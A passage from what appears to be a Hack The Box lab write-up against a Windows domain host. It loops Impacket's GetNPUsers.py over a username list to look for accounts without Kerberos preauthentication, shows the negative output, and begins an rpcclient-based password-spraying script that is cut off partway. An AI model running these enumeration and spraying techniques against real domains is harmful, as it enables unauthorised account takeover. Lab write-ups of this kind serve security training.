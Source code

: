 ### Do not require Kerberous preauthentication

Let's see if any of the users had **Do not require Kerberos preauthentication** set with Impacket's `GetNPUsers.py`.

```
# for user in $(cat usernames); do python3 GetNPUsers.py -format john -no-pass "fabricorp/$user" -dc-ip 10.10.10.193; echo; done
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for bnielson
[-] User bnielson doesn't have UF_DONT_REQUIRE_PREAUTH set

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for pmerton
[-] User pmerton doesn't have UF_DONT_REQUIRE_PREAUTH set

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for tlavel
[-] User tlavel doesn't have UF_DONT_REQUIRE_PREAUTH set

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for sthompson
[-] User sthompson doesn't have UF_DONT_REQUIRE_PREAUTH set

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for bhult
[-] User bhult doesn't have UF_DONT_REQUIRE_PREAUTH set

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for administrator
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

```

### Password Spraying

Well, the tried-and-true, surefire way of gaining access is password spraying. With that, I wrote a simple shell script based on `rpcclient`.

<div class="filename"><span>spray.sh</span></div>

```bash
#!/bin/bash

USER=$1
PASS=$2

function die() {
    killall perl 2>/dev/null
}

export -f die

function check() {

    local DOMAIN=fabricorp
    local HOST=10.10.10.193
    local USER=$1
    local PASS=$2
```

[1]: https://www.hackthebox.eu/home/machines/profile/256
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/